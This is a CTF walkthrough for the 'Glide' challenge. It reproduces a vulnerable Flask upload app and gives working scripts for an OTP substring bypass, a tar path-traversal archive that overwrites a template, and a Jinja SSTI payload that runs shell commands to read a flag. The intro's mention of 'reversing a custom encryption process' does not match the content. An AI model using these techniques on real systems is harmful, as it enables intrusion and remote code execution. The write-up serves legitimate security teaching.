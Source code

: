 # Glide - Flagyard CTF Walkthrough

This is a walkthrough for solving the **Glide** challenge from the **Flagyard CTF**. The challenge involves reversing a custom encryption process to retrieve the original input that satisfies the conditions.

## Challenge Description
### Ice skating? Slide!
This challenge involves a web application that allows users to log in, upload a .tar file, and automatically extract its contents. The goal is to exploit vulnerabilities in the application to achieve Remote Code Execution (RCE).

---

```python
from flask import Flask, render_template, request, redirect, url_for, session, send_from_directory
import os
import random
import string
import time
import tarfile
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.secret_key = "secretkeyplaceheolder"

def generate_otp():
    otp = ''.join(random.choices(string.digits, k=4))
    return otp

if not os.path.exists('uploads'):
   os.makedirs('uploads')

@app.route('/', methods=['GET', 'POST'])
def main():
    if 'username' not in session or 'otp_validated' not in session:
        return redirect(url_for('login'))
    if request.method == 'POST':
        uploaded_file = request.files['file']
        if uploaded_file.filename != '':
            filename = secure_filename(uploaded_file.filename)
            file_path = os.path.join('uploads', filename)
            uploaded_file.save(file_path)
            session['file_path'] = file_path
            return redirect(url_for('extract'))
        else:
            return render_template('index.html', message='No file selected')
    return render_template('index.html', message='')

@app.route('/extract')
def extract():
    if 'file_path' not in session:
        return redirect(url_for('login'))
    file_path = session['file_path']
    output_dir = 'uploads'
    if not tarfile.is_tarfile(file_path):
        os.remove(file_path)
        return render_template('extract.html', message='The uploaded file is not a valid tar archive')
    with tarfile.open(file_path, 'r') as tar_ref:
        tar_ref.extractall(output_dir)
        os.remove(file_path)
    return render_template('extract.html', files=os.listdir(output_dir))

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username == 'admin' and password == 'admin':
            session['username'] = username
            return redirect(url_for('otp'))
        else:
            return render_template('login.html', message='Invalid username or password')
    return render_template('login.html', message='')

@app.route('/otp', methods=['GET', 'POST'])
def otp():
    if 'username' not in session:
        return redirect(url_for('login'))
    if request.method == 'POST':
        otp,_otp = generate_otp(),request.form['otp']
        if otp in _otp:
            session['otp_validated'] = True
            return redirect(url_for('main'))
        else:
            time.sleep(10) # please don't bruteforce my OTP
            return render_template('otp.html', message='Invalid OTP')
    return render_template('otp.html', message='')

@app.route('/logout')
def logout():
    session.pop('username', None)
    session.pop('otp_validated', None)
    session.pop('file_path', None)
    return redirect(url_for('login'))

@app.route('/uploads/<path:filename>')
def uploaded_file(filename):
    uploads_path = os.path.join(app.root_path, 'uploads')
    return send_from_directory(uploads_path, filename)

if __name__ == '__main__':
    app.run(debug=True)
```

## Functionality

    Login: Users must log in with the credentials admin:admin.

    OTP Validation: After logging in, users are prompted to enter a One-Time Password (OTP).

    File Upload: Once authenticated, users can upload a .tar file.

    File Extraction: The uploaded .tar file is automatically extracted.

## Vulnerabilities

### 1. OTP Bypass

The OTP validation is flawed. The application checks if the generated OTP is a substring of the user's input. This allows us to bypass the OTP by submitting a string containing all possible 4-digit combinations.

### Exploit Script

```python
print("".join(f"{a}{b}{c}{d}" for a in range(10) for b in range(10) for c in range(10) for d in range(10)))
```

### 2. Path Traversal in Tar Extraction

The application uses secure_filename() to sanitize the uploaded file's name, but it does not sanitize filenames inside the .tar archive. This allows us to exploit path traversal by crafting a malicious .tar file.

### Malicious Tar Creation Script

```python
import tarfile
import os

# Create a directory for the malicious payload
os.makedirs("malicious_payload", exist_ok=True)

# Define the malicious HTML file and its content
malicious_file = "malicious_payload/extract.html"
html_content = """
<!DOCTYPE html>
<html>
<head>
    <title>Malicious Page</title>
</head>
<body>
    <h1>You've been exploited!</h1>
    <p>{{7*7}}</p>
    <textarea type="text" rows="40" cols="50" id="page" name="page" >{{7*7}}</textarea>
</body>
</html>
"""

with open(malicious_file, "w") as f:
    f.write(html_content)

# Define the target path for traversal (e.g., ../../extract.html)
traversal_path = "../templates/extract.html"

# Create the tar file
with tarfile.open("file.tar.gz", "w:gz") as tar:
    tar.add(malicious_file, arcname=traversal_path)

print("[+] Malicious tar.gz created successfully.")
```

---

## Exploitation

Step 1: Bypass OTP

    Log in with admin:admin.

    Submit the string generated by the OTP bypass script.

Step 2: Upload Malicious Tar File

    Upload the crafted .tar file.

    The file will be extracted, and the malicious extract.html will be placed in the templates directory.

Step 3: Trigger SSTI

    Access the extract.html page.

    The Server-Side Template Injection (SSTI) payload will execute, allowing Remote Code Execution (RCE).

### Final SSTI Payload

```html
{{config.__class__.__init__.__globals__['os'].popen('cat $(find / -name flag.txt 2>/dev/null)').read()}}
```

## Conclusion

This challenge demonstrates how improper handling of file uploads and OTP validation can lead to severe vulnerabilities like path traversal and SSTI. By exploiting these weaknesses, we achieved Remote Code Execution (RCE) and retrieved the flag.

### Contact me: 

<a href="https://www.instagram.com/t2tt/" style="color: white; text-decoration: none;">
  <img src="https://upload.wikimedia.org/wikipedia/commons/9/95/Instagram_logo_2022.svg" alt="Instagram" width="30" />
</a>

